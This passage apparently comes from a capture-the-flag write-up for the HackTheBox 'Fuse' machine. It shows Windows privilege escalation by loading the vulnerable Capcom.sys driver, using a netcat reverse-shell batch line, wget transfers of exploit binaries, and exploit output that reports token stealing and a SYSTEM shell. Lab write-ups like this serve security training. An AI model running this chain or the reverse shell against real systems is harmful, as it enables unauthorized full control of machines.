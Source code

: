 For exploiting we need 2 files

|File|Link|
|-----|----|
|eoploaddriver.cpp| [Here](https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp)|
|ExploitCapcom.cpp|[Here](https://github.com/tandasat/ExploitCapcom)|

Compile all the files and transfer them to machine along with nc.exe and netcat.bat

```bash
[vibhu@parrot]─[~/HTB/boxes/Fuse/priv/htb-scripts/exploit-fuse]$ cat netcat.bat 
c:\temp\nc.exe 10.10.14.166 9001 -e cmd.exe
``` 

Let's transfer the files

```bash
*Evil-WinRM* PS C:\temp> wget http://10.10.14.166:8000/EOPLOADDRIVER.exe -o EOPLOADDRIVER.exe
*Evil-WinRM* PS C:\temp> wget http://10.10.14.166:8000/ExploitCapcom_modded.exe -o ExploitCapcom.exe
*Evil-WinRM* PS C:\temp> wget http://10.10.14.166:8000/Capcom.sys -o Capcom.sys
*Evil-WinRM* PS C:\temp> wget http://10.10.14.166:8000/nc.exe -o nc.exe
*Evil-WinRM* PS C:\temp> wget http://10.10.14.166:8000/netcat.bat -o netcat.bat
```
Meanwhile on our server 

```bash
[vibhu@parrot]─[~/HTB/boxes/Fuse/priv/htb-scripts/exploit-fuse]$ python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.193 - - [08/Jul/2020 17:22:11] "GET /EOPLOADDRIVER.exe HTTP/1.1" 200 -
10.10.10.193 - - [08/Jul/2020 17:22:26] "GET /ExploitCapcom_modded.exe HTTP/1.1" 200 -
10.10.10.193 - - [08/Jul/2020 17:22:39] "GET /Capcom.sys HTTP/1.1" 200 -
10.10.10.193 - - [08/Jul/2020 17:23:00] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.193 - - [08/Jul/2020 17:23:11] "GET /netcat.bat HTTP/1.1" 200 -
```
```bash
*Evil-WinRM* PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         7/8/2020   5:10 AM          10576 Capcom.sys
-a----         7/8/2020   5:10 AM          15360 EOPLOADDRIVER.exe
-a----         7/8/2020   5:10 AM         275968 ExploitCapcom.exe
-a----         7/8/2020   5:10 AM          59392 nc.exe
-a----         7/8/2020   5:11 AM             44 netcat.bat
```

Let's exploit it

```bash
*Evil-WinRM* PS C:\temp> .\EOPLOADDRIVER.exe System\CurrentControlSet\MyService C:\temp\capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\MyService
NTSTATUS: c0000035, WinError: 0
*Evil-WinRM* PS C:\temp> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000080
[*] Shellcode was placed at 000001A0DA410008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```